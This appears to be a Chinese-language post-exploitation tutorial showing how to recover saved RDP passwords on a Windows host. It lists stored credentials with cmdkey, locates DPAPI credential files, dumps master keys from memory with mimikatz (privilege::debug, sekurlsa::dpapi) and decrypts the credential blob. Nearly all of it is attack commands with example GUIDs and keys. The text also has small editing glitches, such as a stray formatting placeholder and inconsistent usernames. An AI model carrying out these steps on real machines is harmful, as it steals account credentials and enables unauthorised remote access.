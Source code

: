 ![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNYtWNe7uCic0ibxsGLtMEUOGEgUy95mrLj05LDR18QWQJEu2ibiaKf2Rh6PEgViaB4D6aBsjISalGxjaHQ/640?wx_fmt=png)

**本地 rdp 密码读取**

**1\. 查看当前服务器历史记录**

```
dpapi::cred /in:C:\\Users\\admin\\AppData\\Local\\Microsoft\\Credentials\\1F914B4D8F36DFD93C3A37B7D5491363/masterkey:3d5c95de7ccd3a1d468efd0d90a42330cdcf06d0e7ee834a443907384a6b25dab8d8ab32c8c9540605711d689304ecab949e168719551d2423498168f7fec6ac
```

```
#查看rdp连接历史记录
cmdkey /list
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNYtWNe7uCic0ibxsGLtMEUOGESBAwTUXChQobybredScdAJBmTO904RDZ1vkS2TicaZhhPBAhmJdMMHg/640?wx_fmt=png)  

**2\. 查找保存在本地的认证，得到对应路径以及值**

```
dir /a %userprofile%\\AppData\\Local\\Microsoft\\Credentials\\\*
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNYtWNe7uCic0ibxsGLtMEUOGEdZorqZPgxKJMeicwq0uNSPQLmWJcMMOZnKqBqm4qmqXlg7tLVkQwxxw/640?wx_fmt=png)

得到：

```
C:\*\*加粗样式\*\*\\Users\\admin\\AppData\\Local\\Microsoft\\Credentials\\1F914B4D8F36DFD93C3A37B7D5491363
```

**3\. 运行 mimikaz，获取 guidMasterKey**  

```
mimikatz 
dpapi::cred /in:C:\\Users\\MIN\\AppData\\Local\\Microsoft\\Credentials\\1F914B4D8F36DFD93C3A37B7D5491363
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNYtWNe7uCic0ibxsGLtMEUOGEskCeBc7MhYyrSB8k4DMEglGz1ZdNzh3gp69HU5iaPleaZrtN9WyyARA/640?wx_fmt=png)

接下来需要使用的是 guidMasterKey、pbData 数据。pbData 是凭据的加密数据，guidMasterKey 是凭据的 GUID。  
**4\. 获取 MasterKey**  
根据目标凭据 GUID 找到其关联的 MasterKey，这个 MasterKey 就是加密凭据的密钥，即解密 pbData 所必须的东西。  

```
mimikatz.exe ""privilege::debug"" ""sekurlsa::dpapi full"" exit >> c:\\log.txt
```

根据 guid 获取到 masterkey

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNYtWNe7uCic0ibxsGLtMEUOGEu95f1WUwibzl5ZU2Ve2xDeKkJ2vdP3X0I1p0n3jxhnFBHNN13vtgzeg/640?wx_fmt=png)

**5.mimikatz 破解密码**  

```
dpapi::cred /in:C:\\Users\\admin\\AppData\\Local\\Microsoft\\Credentials\\1F914B4D8F36DFD93C3A37B7D5491363/masterkey:3d5c95de7ccd3a1d468efd0d90a42330cdcf06d0e7ee834a443907384a6b25dab8d8ab32c8c9540605711d689304ecab949e168719551d2423498168f7fec6ac
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/flBFrCh5pNYtWNe7uCic0ibxsGLtMEUOGE8GceKQMK9aCHrjxwBUTPk5KAHVCcwDwsx6ich1DoyZHRa2gXQnH6Mkg/640?wx_fmt=jpeg)